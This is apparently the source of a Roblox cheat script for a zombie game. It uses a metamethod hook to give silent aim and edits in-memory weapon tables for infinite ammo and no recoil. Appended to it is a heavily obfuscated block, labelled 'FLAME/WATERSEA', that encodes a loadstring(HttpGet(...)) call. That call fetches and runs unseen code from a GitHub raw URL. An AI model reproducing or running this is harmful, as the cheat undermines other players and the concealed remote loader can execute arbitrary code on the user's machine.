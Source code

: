local uis = game:GetService("UserInputService")
local cam = game:GetService("Workspace").CurrentCamera
local ts = game:GetService("TweenService")
local plr = game:GetService("Players").LocalPlayer
local zombies = game:GetService("Workspace").Zombies

local function getClosestSilent()
    local closestDist = math.huge
    local closestPlr = nil
    for _, v in next, zombies.GetChildren(zombies) do
        if game.FindFirstChild(v, "Humanoid") and v.Humanoid.Health > 0 then
            local vector, onScreen = cam.worldToScreenPoint(cam, game.WaitForChild(v, "Head", math.huge).Position)
            local dist = (Vector2.new(uis.GetMouseLocation(uis).X, uis.GetMouseLocation(uis).Y) - Vector2.new(vector.X, vector.Y)).Magnitude
            if dist < closestDist and onScreen then
                closestDist = dist
                closestPlr = v
            end
        end
    end
    return closestPlr
end

local namecall;
namecall = hookmetamethod(game, "__namecall", function(Self, ...)
	if not checkcaller() and tostring(getcallingscript()) == "Framework" and string.lower(getnamecallmethod()) == "findpartonraywithignorelist" then
		local args = {...}
		local closest = getClosestSilent()
		if closest then
			local origin = args[1].Origin
			args[1] = Ray.new(origin, closest.Head.Position - origin)
		end
		return namecall(Self, unpack(args))
	end
	return namecall(Self, ...)
end)
local spread1 = {

  Increase = 0,

  Decrease = 0,

  Max = 0,

  Min = 0

}

local rec = {

  Tilt = { 0, 0 },

  Side = { 0, 0 },

  Vertical = { 0, 0 },

  Back = { 0, 0 },

  Aimed = 0,

  FirstShot = 0

}

for i,v in pairs(getgc(true)) do

   if type(v) == 'table' and rawget(v, 'magsize') then
       v.magsize = math.huge
       v.storedammo = math.huge
       v.rpm = math.huge
       v.spread = spread1
       v.recoil = rec
       v.mode = "Auto"
   end
end
--[[
FLAME/WATERSEA [V1]
]]--

do local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function()return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...)local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v35)if (v1(v30,2)==79) then v19=v0(v3(v30,1,1));return "";else local v79=0;local v80;while true do if (v79==0) then v80=v2(v0(v30,16));if v19 then local v96=v5(v80,v19);v19=nil;return v96;else return v80;end break;end end end end);local function v20(v31,v32,v33)if v33 then local v81=(v31/((5 -3)^(v32-(2 -1))))%((1 + 1)^(((v33-(1 -0)) -(v32-1)) + (2 -(1 + 0)))) ;return v81-(v81%1) ;else local v82=(621 -(555 + 64))^(v32-(932 -((1734 -(282 + 595)) + 74))) ;return (((v31%(v82 + v82))>=v82) and (569 -(367 + 201))) or (927 -(214 + 713)) ;end end local function v21()local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22()local v35,v36=v1(v16,v18,v18 + (1639 -(1523 + 114)) );v18=v18 + 2 + 0 ;return (v36 * (364 -108)) + v35 ;end local function v23()local v37,v38,v39,v40=v1(v16,v18,v18 + 3 );v18=v18 + (1069 -(68 + 997)) ;return (v40 * (16778486 -(226 + 1044))) + (v39 * (285370 -219834)) + (v38 * (373 -(32 + 85))) + v37 ;end local function v24()local v41=v23();local v42=v23();local v43=1 + 0 ;local v44=(v20(v42,1 -(0 + 0) ,5 + 15 ) * ((959 -(892 + 65))^32)) + v41 ;local v45=v20(v42,49 -28 ,1028 -(915 + 82) );local v46=((v20(v42,32)==(1 -0)) and  -(1 -0)) or (351 -(87 + 263)) ;if (v45==((1629 -(416 + 26)) -(1069 + (556 -(145 + 293))))) then if (v44==(180 -(67 + 113))) then return v46 * (0 -0) ;else v45=1 -(0 -0) ;v43=0 + 0 ;end elseif (v45==(5025 -2978)) then return ((v44==(0 -0)) and (v46 * ((1 + 0)/(0 -0)))) or (v46 * NaN) ;end return v8(v46,v45-(1975 -(802 + 150)) ) * (v43 + (v44/(((450 -(44 + 386)) -((1496 -(998 + 488)) + 3 + 5))^(139 -87)))) ;end local function v25(v47)local v48=859 -(814 + 45) ;local v49;local v50;while true do if (v48==(0 + 0)) then v49=nil;if  not v47 then v47=v23();if (v47==(772 -(201 + 571))) then return "";end end v48=1139 -(116 + 1022) ;end if (v48==3) then return v6(v50);end if (v48==(8 -(14 -8))) then v50={};for v88=1 + 0 , #v49 do v50[v88]=v2(v1(v3(v49,v88,v88)));end v48=3;end if (v48==(3 -2)) then v49=v3(v16,v18,(v18 + v47) -(3 -2) );v18=v18 + v47 ;v48=1 + 1 ;end end end local v26=v23;local function v27(...)return {...},v12("#",...);end local function v28()local v51=0 -0 ;local v52;local v53;local v54;local v55;local v56;local v57;local v58;while true do if (v51==2) then local v86=0;while true do if (v86~=(868 -(550 + 317))) then else v51=3 -0 ;break;end if (v86~=(0 -0)) then else v56=nil;v57=nil;v86=1;end end end if (v51~=(8 -5)) then else v58=nil;while true do local v90=0;local v91;while true do if (v90==(285 -(134 + 151))) then v91=0;while true do if (v91==0) then local v127=0;while true do if (v127~=1) then else v91=1;break;end if (v127~=(1665 -(970 + 695))) then else if (1==v52) then local v141=0 -0 ;while true do if (v141==(1992 -(582 + 1408))) then v52=2;break;end if ((3 -2)~=v141) then else for v147=1 -0 ,v57 do local v148=0 -0 ;local v149;local v150;local v151;while true do if (0==v148) then v149=1824 -(1195 + 629) ;v150=nil;v148=1 -0 ;end if (v148==1) then v151=nil;while true do if (v149~=0) then else local v154=0;while true do if (v154~=(241 -(187 + 54))) then else local v156=0;while true do if (v156~=(780 -(162 + 618))) then else v150=v21();v151=nil;v156=1 + 0 ;end if (1==v156) then v154=1 + 0 ;break;end end end if (v154~=1) then else v149=1 -0 ;break;end end end if (v149~=(1 -0)) then else if (v150==1) then v151=v21()~=0 ;elseif (v150==2) then v151=v24();elseif (v150~=3) then else v151=v25();end v58[v147]=v151;break;end end break;end end end v56[3]=v21();v141=1 + 1 ;end if (0==v141) then v57=v23();v58={};v141=1;end end end if (v52~=(1638 -(1373 + 263))) then else local v142=1000 -(451 + 549) ;local v143;while true do if (v142~=(0 + 0)) then else v143=0;while true do local v152=0;while true do if (v152==(0 -0)) then if (v143~=(0 -0)) then else local v153=1384 -(746 + 638) ;while true do if (v153==0) then for v157=1,v23() do local v158=0 + 0 ;local v159;local v160;while true do if (v158==1) then while true do if ((0 -0)==v159) then v160=v21();if (v20(v160,342 -(218 + 123) ,1582 -(1535 + 46) )~=(0 + 0)) then else local v164=0 + 0 ;local v165;local v166;local v167;while true do if (v164~=2) then else local v168=0;while true do if (v168==1) then v164=563 -(306 + 254) ;break;end if (v168~=0) then else if (v20(v166,1 + 0 ,1)==(1 -0)) then v167[1469 -(899 + 568) ]=v58[v167[2]];end if (v20(v166,2,2)~=(1 + 0)) then else v167[7 -4 ]=v58[v167[606 -(268 + 335) ]];end v168=291 -(60 + 230) ;end end end if (3==v164) then if (v20(v166,3,575 -(426 + 146) )==(1 + 0)) then v167[1460 -(282 + 1174) ]=v58[v167[4]];end v53[v157]=v167;break;end if (v164==(811 -(569 + 242))) then local v170=0 -0 ;while true do if (v170~=(1 + 0)) then else v164=1025 -(706 + 318) ;break;end if (v170==0) then v165=v20(v160,2,1254 -(721 + 530) );v166=v20(v160,1275 -(945 + 326) ,14 -8 );v170=1;end end end if (v164==1) then local v171=0 + 0 ;while true do if (v171==(700 -(271 + 429))) then local v174=0;while true do if (v174~=(0 + 0)) then else v167={v22(),v22(),nil,nil};if (v165==(1500 -(1408 + 92))) then local v179=1086 -(461 + 625) ;local v180;while true do if ((1288 -(993 + 295))~=v179) then else v180=0 + 0 ;while true do if (v180==0) then v167[1174 -(418 + 753) ]=v22();v167[2 + 2 ]=v22();break;end end break;end end elseif (v165==1) then v167[1 + 2 ]=v23();elseif (v165==2) then v167[1 + 2 ]=v23() -((1 + 1)^16) ;elseif (v165~=3) then else local v185=0;local v186;while true do if (v185~=(529 -(406 + 123))) then else v186=1769 -(1749 + 20) ;while true do if (v186==(0 + 0)) then v167[3]=v23() -(2^(1338 -(1249 + 73))) ;v167[2 + 2 ]=v22();break;end end break;end end end v174=1;end if (1~=v174) then else v171=1;break;end end end if ((1146 -(466 + 679))==v171) then v164=4 -2 ;break;end end end end end break;end end break;end if ((0 -0)~=v158) then else local v163=0;while true do if (1==v163) then v158=1;break;end if (v163~=0) then else v159=1900 -(106 + 1794) ;v160=nil;v163=1;end end end end end for v161=1 + 0 ,v23() do v54[v161-1 ]=v28();end v153=1;end if (v153==1) then v143=1 + 0 ;break;end end end if (v143==1) then return v56;end break;end end end break;end end end v127=1;end end end if (v91==1) then if (v52~=(0 -0)) then else local v136=0 -0 ;while true do if (v136~=(115 -(4 + 110))) then else v55={};v56={v53,v54,nil,v55};v136=3 -1 ;end if (v136==0) then v53={};v54={};v136=2 -1 ;end if (v136~=(168 -(122 + 44))) then else v52=1;break;end end end break;end end break;end end end break;end if (v51==1) then local v87=0;while true do if (v87~=0) then else v54=nil;v55=nil;v87=1;end if (v87==(1 -0)) then v51=6 -4 ;break;end end end if ((0 + 0)==v51) then v52=0 + 0 ;v53=nil;v51=1;end end end local function v29(v59,v60,v61)local v62=v59[1];local v63=v59[2];local v64=v59[3];return function(...)local v65=v62;local v66=v63;local v67=v64;local v68=v27;local v69=1;local v70= -1;local v71={};local v72={...};local v73=v12("#",...) -1 ;local v74={};local v75={};for v83=0,v73 do if (v83>=v67) then v71[v83-v67 ]=v72[v83 + 1 ];else v75[v83]=v72[v83 + 1 ];end end local v76=(v73-v67) + 1 ;local v77;local v78;while true do v77=v65[v69];v78=v77[1];if (v78<=3) then if (v78<=1) then if (v78==0) then do return;end else v75[v77[2]]();end elseif (v78>2) then local v97;local v98,v99;local v100;local v101;v75[v77[2]]=v61[v77[3]];v69=v69 + 1 ;v77=v65[v69];v75[v77[2]]=v61[v77[3]];v69=v69 + 1 ;v77=v65[v69];v101=v77[2];v100=v75[v77[3]];v75[v101 + 1 ]=v100;v75[v101]=v100[v77[4]];v69=v69 + 1 ;v77=v65[v69];v75[v77[2]]=v77[3];v69=v69 + 1 ;v77=v65[v69];v101=v77[2];v98,v99=v68(v75[v101](v13(v75,v101 + 1 ,v77[3])));v70=(v99 + v101) -1 ;v97=0;for v125=v101,v70 do local v126=0;while true do if (v126==0) then v97=v97 + 1 ;v75[v125]=v98[v97];break;end end end v69=v69 + 1 ;v77=v65[v69];v101=v77[2];v75[v101]=v75[v101](v13(v75,v101 + 1 ,v70));v69=v69 + 1 ;v77=v65[v69];v75[v77[2]]();v69=v69 + 1 ;v77=v65[v69];do return;end else local v111=0;local v112;local v113;while true do if (v111==0) then v112=v77[2];v113=v75[v77[3]];v111=1;end if (v111==1) then v75[v112 + 1 ]=v113;v75[v112]=v113[v77[4]];break;end end end elseif (v78<=5) then if (v78==4) then local v114=0;local v115;local v116;local v117;local v118;while true do if (v114==2) then for v139=v115,v70 do local v140=0;while true do if (0==v140) then v118=v118 + 1 ;v75[v139]=v116[v118];break;end end end break;end if (v114==1) then v70=(v117 + v115) -1 ;v118=0;v114=2;end if (v114==0) then v115=v77[2];v116,v117=v68(v75[v115](v13(v75,v115 + 1 ,v77[3])));v114=1;end end else v75[v77[2]]=v61[v77[3]];end elseif (v78==6) then local v121=0;local v122;while true do if (v121==0) then v122=v77[2];v75[v122]=v75[v122](v13(v75,v122 + 1 ,v70));break;end end else v75[v77[2]]=v77[3];end v69=v69 + 1 ;end end;end return v29(v28(),{},v17)(...);end v15("LOL!043O00030A3O006C6F6164737472696E6703043O0067616D6503073O00482O7470476574037C3O00682O7470733A2O2F7261772E67697468756275736572636F6E74656E742E636F6D2F2O4C437465616D732F5A4B4875622F6D61696E2F2544302539452544302542442544302542382532302544302542462544312538302544302542382544312538352544302542452544302542342544312538462544312538322100083O0012033O00013O00122O000100023O00202O00010001000300122O000300046O000100039O0000026O000100016O00017O00",v9(),...);end

